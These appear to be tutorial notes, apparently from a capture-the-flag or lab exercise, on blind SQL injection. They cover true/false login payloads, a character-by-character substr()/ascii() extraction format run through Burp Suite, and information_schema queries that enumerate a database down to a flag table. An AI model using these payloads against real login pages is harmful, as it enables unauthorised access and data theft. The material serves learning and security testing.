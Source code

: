 ## Part 4. Blind-based SQL Injection
* Display output of SQL injection result: Union SQL Injection
* Display error message: Error-based SQL injection
* Not display error message: Blind-based SQL injection
  - Log-in page
  - ID double check
  - Response difference between True or False
* ID exists
```javascript
normaltic' and '1' = '1            
```
* ID doesn't exist
```javascript
normaltic' and '1' = '2
```
```javascript
normaltic' and ('1' = '1') and '1' = '1
```

## Part 5. Blind-based SQL Injection Process
1. Find SQL Injection Point
* True
```javascript
normaltic' and '1'='1
```
* False
```javascript
normaltic' and '1'='2
```
2. Check select function
```javascript
normaltic' and ((select'test')='test')) and '1'='1
```
3. Attack format
* substr() = The SUBSTR() function extracts a substring from a string (starting at any position)
```javascript
normaltic' and (_____________) and '1'='1
substr('test',1,1) => 't'
substr('test',1,2) => 'te'
substr('test',2,1) => 'e'
substr((___SQL___),1,1)
substr((select'test'),1,1)='t'
normaltic' and (substr((select'test'),1,1)='t') and '1'='1
ascii(substr((___SQL___),1,1)) > 0
```
* Attack format = When operating the attack format, it executes the repeater in Burp suite
```javascript
normaltic' and (ascii(substr((select'test'),1,1)) > 0) and '1'='1
```
4. Find database
```javascript
normaltic' and (ascii(substr((select database()),1,1)) > 0) and '1'='1     = Attack format
```
5. Find table name
```javascript
select table_name from information_schema.tables where table_schema = 'database_name' limit 0,1
```
6. Find column name
```javascript
select column_name from information_schema.columns where table_name = 'flagTable_this' limit 0,1
```
7. Find data
```javascript
select flag from flagTable_this limit 0,1
```
